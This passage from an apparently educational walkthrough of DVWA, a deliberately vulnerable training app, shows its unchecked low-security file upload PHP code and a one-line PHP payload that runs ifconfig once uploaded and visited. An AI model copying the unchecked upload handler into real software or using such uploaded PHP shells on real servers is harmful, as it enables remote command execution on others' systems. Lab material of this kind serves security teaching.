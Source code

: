 In low security mode, the code takes the uploaded file and moves it directly
to the `hackable/uploads` directory without any checks:

```php
if( isset( $_POST[ 'Upload' ] ) ) {

    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

<br>

This can be exploited by uploading a file containing one line of PHP code:
`<?php system(ifconfig) ?>`

![](images/Exploring%20Web%20Application%20Attacks%20Using%20DVWA/image026.png)<br><br>

Now when the page is visited, the PHP code runs and prints the results of the
`ifconfig` command:

![](images/Exploring%20Web%20Application%20Attacks%20Using%20DVWA/image027.png)
